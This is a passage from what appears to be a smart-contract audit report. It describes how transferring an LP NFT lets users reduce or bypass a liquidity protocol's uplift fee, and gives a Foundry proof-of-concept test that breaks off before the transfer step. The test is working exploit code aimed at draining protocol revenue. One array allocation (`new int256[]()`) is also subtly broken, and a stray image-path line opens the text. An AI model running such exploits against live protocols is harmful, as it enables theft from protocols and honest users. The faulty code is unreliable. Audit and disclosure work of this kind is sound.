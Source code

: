 * Financial Loss to Protocol

The protocol’s revenue mechanism is compromised because users can avoid paying the intended uplift fees. Over time, this can result in significant losses to the protocol, as it no longer collects fair compensation for the increase in token value.

* Undermines Core Protocol Logic

The main feature of controlling Impermanent Loss and charging fees on liquidity growth is effectively negated. This can lead to an unbalanced economic model, where malicious actors gain extra profit at the expense of honest users and the protocol itself.

## 05. Proof of Concept

Below is a test scenario demonstrating how transferring the LP NFT can reduce or bypass the uplift fee:

```Solidity
function test_poc_transfer_RemoveLiquidity_make_low_fee() public {
    uint256 snapshotId = vm.snapshot();
    
    // Test remove Liquidity with no transfer
    // Add Liquidity
    uint256[] memory maxAmountsIn = [dai.balanceOf(bob), usdc.balanceOf(bob)].toMemoryArray();
    vm.prank(bob);
    upliftOnlyRouter.addLiquidityProportional(pool, maxAmountsIn, bptAmount, false, bytes(""));
    vm.stopPrank();

    // setMockPrices
    int256[] memory prices = new int256[]();
    for (uint256 i = 0; i < tokens.length; ++i) {
        prices[i] = int256(i) * 10e18; // 10x
    }
    updateWeightRunner.setMockPrices(pool, prices);

    uint256[] memory minAmountsOut = [uint256(0), uint256(0)].toMemoryArray();

    BaseVaultTest.Balances memory balancesBefore = getBalances(bob);

    // Remove Liquidity
    vm.startPrank(bob);
    upliftOnlyRouter.removeLiquidityProportional(bptAmount, minAmountsOut, false, pool);
    vm.stopPrank();
    BaseVaultTest.Balances memory balancesAfter = getBalances(bob);

    console.log("Bob's DAI amountOut: ", balancesAfter.bobTokens[daiIdx] - balancesBefore.bobTokens[daiIdx]);
    console.log("Bob's USDC amountOut: ", balancesAfter.bobTokens[usdcIdx] - balancesBefore.bobTokens[usdcIdx]);

    vm.revertTo(snapshotId);

    // Add Liquidity
    maxAmountsIn = [dai.balanceOf(bob), usdc.balanceOf(bob)].toMemoryArray();
    vm.prank(bob);
    upliftOnlyRouter.addLiquidityProportional(pool, maxAmountsIn, bptAmount, false, bytes(""));
    vm.stopPrank();

    // setMockPrices
    prices = new int256[](tokens.length);
    for (uint256 i = 0; i < tokens.length; ++i) {
        prices[i] = int256(i) * 10e18; // 10x
    }
    updateWeightRunner.setMockPrices(pool, prices);

```